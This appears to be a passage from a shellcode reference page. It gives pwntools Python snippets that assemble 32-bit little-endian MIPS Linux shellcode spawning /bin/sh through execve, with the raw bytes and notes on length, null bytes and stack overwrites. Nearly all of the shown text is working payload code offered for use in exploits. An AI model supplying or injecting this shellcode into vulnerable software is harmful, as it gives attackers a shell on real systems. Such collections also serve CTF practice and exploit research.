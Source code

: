 ```python
from pwn import *
context.update(arch='mips', os='linux', bits=32, endian='little')
shellcode = asm('''
    bltzal  $zero, getpc
getpc:
    addiu   $v0, $zero, 0xfab
    slti    $a2, $zero, -1
    slti    $a1, $zero, -1
    addiu   $a0, $ra, 0x101
    addiu   $t4, $a0, -0xdd
    sb      $a2, -1($t4)
    addiu   $a0, $a0, -0xe5
    syscall 0x040405
    .word   0x6e69622f
    .word   0x6168732f
''')
shellcode = b'\xff\xff'+shellcode[2:]

# Shellcode = b"\xff\xff\x10\x04\xab\x0f\x02$\xff\xff\x06(\xff\xff\x05(\x01\x01\xe4'#\xff\x8c$\xff\xff\x86\xa1\x1b\xff\x84$L\x01\x01\x01/bin/sha"
```

### `/bin/sh` - 40 bytes
* Command - `execve("/bin/sh", {"/bin/sh", NULL}, NULL)`
* Length - 40
* Notes
    * **DOES** contain null bytes
    * **DOES** contain whitespace
    * Suitable for most shellcode - (`$sp` to `$sp+0x8` are overwritten, so as long as those addresses don't contain future shellcode bytes, it's okay)

```python
from pwn import *
context.update(arch='mips', os='linux', bits=32, endian='little')
shellcode = asm('''
    bltzal  $zero, getpc        # \x00\x00\x10\x04
getpc:
    addiu   $v0, $zero, 0xfab   # \xab\x0f\x02\x24
    addi    $a2, $v0, -0xfab    # \x55\xf0\x46\x20
    addi    $a0, $ra, 0x18      # \x18\x00\xe4\x23
    sw      $a0, 0x0($sp)       # \x00\x00\xa4\xaf
    sw      $a2, 0x4($sp)       # \x04\x00\xa6\xaf
    move    $a1, $sp            # \x25\x28\xa0\x03
    syscall 0xd1337             # \xcc\xcd\x44\x03
.string "/bin/sh"               # \x2f\x62\x69\x6e\x2f\x73\x68\x00
''')

# Shellcode = b'\x00\x00\x10\x04\xab\x0f\x02$U\xf0F \x18\x00\xe4#\x00\x00\xa4\xaf\x04\x00\xa6\xaf%(\xa0\x03\xcc\xcdD\x03/bin/sh\x00'
```
